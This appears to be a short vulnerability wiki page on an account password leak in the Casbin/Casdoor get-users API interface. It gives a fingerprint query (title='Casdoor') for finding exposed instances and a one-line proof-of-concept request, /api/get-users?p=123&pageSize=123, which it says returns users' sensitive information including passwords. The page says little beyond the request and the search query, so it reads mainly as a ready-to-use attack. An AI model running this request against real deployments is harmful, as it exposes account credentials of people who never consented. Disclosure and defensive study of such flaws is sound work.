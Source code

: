 # Casbin get-users account password leak vulnerability

## Vulnerability Description

There is an account password leak vulnerability in the Casbin get-users API interface. The attacker can obtain user sensitive information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Casbin</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Casdoor"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646232783496-55549f0b-2c00-4f19-93bd-764b2df2d7e1.png)

Verify POC

```javascript
/api/get-users?p=123&pageSize=123
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646232815871-7695e1f9-9425-44a5-bece-8a511e757461.png)
